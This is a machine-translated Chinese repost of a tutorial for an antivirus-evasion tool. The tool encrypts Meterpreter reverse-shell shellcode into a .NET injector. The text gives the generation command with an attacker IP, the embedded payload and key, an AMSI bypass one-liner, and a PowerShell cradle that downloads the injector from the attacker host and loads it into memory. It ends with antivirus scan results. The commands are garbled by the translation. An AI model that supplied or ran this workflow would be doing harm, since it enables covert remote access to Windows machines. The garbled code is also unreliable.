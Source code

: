 # 外壳代码加密器:一个简单的外壳代码加密器/解密器/执行器来绕过反病毒

> 原文：<https://kalilinuxtutorials.com/shellcode-encryptor/>

[![](img/52d6e63f326dcbce49e3cd93590f78bd.png)](https://blogger.googleusercontent.com/img/a/AVvXsEhsBOnh4DsI0O9JNnFfL1IUk3nvIRc7dqHaWmlRhrE8IpfFJPh9AGs5z0UCQzymizGIc1lZQd8gpPocQryAAt5OAr2q82CvTgCUMdPjYeC5gIe6bIxDmkR7Z8ApjsZ8px-eo7p3Vb4RsP8VqHvHCkwtiqyHoFRJitnO_ryMNT6mBja1QTLBkNG05r1L=s728)

外壳代码加密器是一个简单的外壳代码加密器/解密器/执行器来绕过反病毒。

**注意:**我已经完全重做了创建旁路的工作流程，我发现使用 PowerShell 将二进制文件注入内存是最有效的方法。

**目的**

生成包含 base64 编码、AES 加密外壳代码的. Net 二进制文件，该文件将绕过防病毒程序在 Windows 目标上执行。

**指令**

使用`**meterpreter_encryptor.py**`创建加密的 base64 外壳代码:

**根@kali:~#。/meter preter _ encryptor . py-p windows/x64/meter preter/reverse _ https-I 192 . 168 . 1 . 228-l 443-f b64
[+]生成 MSFVENOM 有效负载…
[-]未选择平台，选择 MSF::module::platform::windows from 有效负载
[-]未选择 arch，选择 arch: x64 from 有效负载
找到兼容的编码/msf.bin
[+]加密有效负载，key = fjlmjichnq 4 K6 cjncrplqug 1 HW 4 icmec…
base 64 输出:
szkmiiitri 5 hql 2y xtbgjq91 QQ 0 fuqgfr 7 yikt N2 n 1 iz 8 vq3q/briytjbb 7 nkrssjm 25 srqh+r9 whgnstv 8**

获取密钥和外壳代码，并将其插入 ProcessInjector.cs

**//解密 base64 payload
string payload = " szk MII[etc…]"；
string key = " fjlmjiegnq 4k 6 cjncrplqug 1g HW 4 IC mec "；**

将 C#代码编译成可执行文件(如`**metInject.exe**`)，并通过 web 服务器提供。

将可执行文件注入远程 PowerShell 进程:

**AMSI 绕道**

**$ a =[Ref]. assembly . gettypes()；ForEach($ b in $ a){ if($ b . Name-like "*iutils "){ $ c = $ b } }；$d = $c.GetFields('非公共、静态')；ForEach($ e in $ d){ if($ e . Name-like "*it failed "){ $ f = $ e } }；$f.SetValue($null，$ true)
$ bytes =(Invoke-WebRequest " http://192 . 168 . 1 . 228/metin jet . exe ")。内容；
$assembly = [System。Reflection.Assembly]::Load(字节)；
$entryPointMethod = $assembly。GetType(' process inject。程序'，[反思。binding flags]“Public，NonPublic”)。GetMethod('Main '，[Reflection。BindingFlags]“静态、公共、非公共”)；
$entryPointMethod。Invoke($null，(，)；**

希望你会有一个漂亮的米特尔外壳。

**求助**

**。/meterpreter_encryptor.py -h
用法:meter preter _ encryptor . py[-h][-l LPORT][-I LHOST][-m PAYLOAD][-k KEY][-e ENCODER][-f FORMAT]
可选参数:
-h，–help 显示此帮助消息并退出
-l LPORT，–l port LPORT
msfconsole 正在侦听的本地端口。
-i LHOST，–LHOST LHOST
MSF console 正在侦听的本地主机。
-p PAYLOAD，–PAYLOAD PAYLOAD
在 msfvenom 中生成的有效负载。
-m 方法，–METHOD 方法
要使用的方法:线程/委托。
-k KEY，–KEY KEY 加密密钥(32 个字符)。
-e 编码器，–ENCODER 编码器
抄表员编码器。
-f 格式，–格式格式
输出的格式。**

**反病毒扫描结果**

2021 年 3 月 10 日使用 antiscan.me 扫描了二进制文件。

![](img/4d873b3d3cace37cbb7185e35e4c83f5.png)[**Download**](https://github.com/plackyhacker/Shellcode-Encryptor)